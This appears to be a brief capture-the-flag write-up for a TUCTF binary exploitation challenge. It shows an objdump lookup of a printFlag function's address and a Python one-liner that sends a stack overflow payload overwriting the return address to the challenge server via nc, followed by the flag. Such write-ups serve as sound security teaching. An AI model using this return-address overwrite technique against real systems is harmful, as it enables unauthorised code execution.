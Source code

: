 # Challenge #
<br>![alt text](pwn2.png)
<br><br>
# Solution #
<pre>
objdump -d ./thefirst
	080491f6 <printFlag>
	
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508

TUCTF{0n3_d0wn..._50_m4ny_70_60}
</pre>

